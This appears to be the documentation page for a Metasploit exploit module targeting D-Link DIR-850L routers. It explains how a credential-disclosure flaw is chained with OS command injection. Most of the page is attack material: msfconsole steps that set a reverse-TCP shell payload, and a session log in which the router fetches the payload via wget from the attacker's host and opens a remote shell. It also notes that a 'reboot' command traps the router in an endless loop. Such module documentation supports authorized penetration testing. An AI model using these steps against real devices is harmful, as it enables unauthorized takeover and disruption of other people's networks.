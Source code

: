 The module dlink_dir850_(un)auth_exec leverages an unauthenticated credential disclosure vulneralbility to then execute arbitrary commands via an authenticated OS command injection
vulneralbility. D-LINK 850L (excluding "Cloud" models) devices with firmware version up to 1.14B07
are potentially vulnerable. The vulneralbility seems to occur within the parsing of the config. Another PoC can be found here https://www.seebug.org/vuldb/ssvid-96333. Setting command to be `reboot` will force the router into an infinite loop.

## Vulnerable Application


  1. Start msfconsole
  2. Do : `use exploit/linux/http/dlink_dir850l_unauth_exec.rb`
  3. Do : `set RHOST [RouterIP]`
  4. Do : `set PAYLOAD linux/mipsle/shell/reverse_tcp`
  5. Do : `run`
  6. If router is vulnerable, payload should be dropped via wget and executed, and therein should obtain an session


## Example

```
msf > use exploit/linux/http/dlink_850l_unauth_exec
msf exploit(dlink_850l_unauthenticated_exec) > set RHOST 192.168.0.14
RHOST => 192.168.0.14
msf exploit(dlink_850l_unauthenticated_exec) > set RPORT 80
RPORT => 80
msf exploit(dlink_850l_unauthenticated_exec) > set LHOST ens3
LHOST => ens3
msf exploit(dlink_850l_unauthenticated_exec) > set LPORT 1351
LPORT => 1351
msf exploit(dlink_850l_unauthenticated_exec) > run

[*] Started reverse TCP handler on 192.168.0.11:1351
[*] 192.168.0.14:80 - Initiating exploitation...
[*] Using URL: http://0.0.0.0:80/Muw2WNUEmsAlcdl
[*] Local IP: http://192.168.0.11:80/Muw2WNUEmsAlcdl
[*] 192.168.0.14:80 - Retrieving uid and auth challenge...
[*] Command Stager progress - 100.00% done (101/101 bytes)
[*] Client 192.168.0.14 (Wget) requested /Muw2WNUEmsAlcdl
[*] Sending payload to 192.168.0.14 (Wget)
[*] Command shell session 2 opened (192.168.0.11:1351 -> 192.168.0.14:55167) at 2017-11-02 15:37:06 -0400
[*] Server stopped.
```
